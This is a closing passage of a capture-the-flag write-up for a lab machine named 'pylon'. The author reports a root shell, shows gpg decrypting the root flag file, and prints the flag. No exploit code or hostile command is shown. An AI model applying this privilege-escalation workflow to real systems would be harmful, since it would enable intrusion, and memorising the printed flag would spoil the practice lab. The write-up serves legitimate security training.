

and we got root shell



now, we just need to decrypt the flag:
```bash
root@pylon:~# file root.txt.gpg 
root.txt.gpg: PGP RSA encrypted session key - keyid: 6677B791 85A320BE RSA (Encrypt or Sign) 3072b .
root@pylon:~# gpg --decrypt root.txt.gpg 
gpg: Note: secret key 91B77766BE20A385 expired at Fri Jan 27 19:04:03 2023 UTC
gpg: encrypted with 3072-bit RSA key, ID 91B77766BE20A385, created 2021-01-27
      "I am g ROOT <root@pylon.thm>"
ThM{OpenVPN_script_pwn}
```



(notice, this wasn't the intended path, however, the certificate is expired, and thus the openvpn connection didn't work, so that's why i needed to find another way.)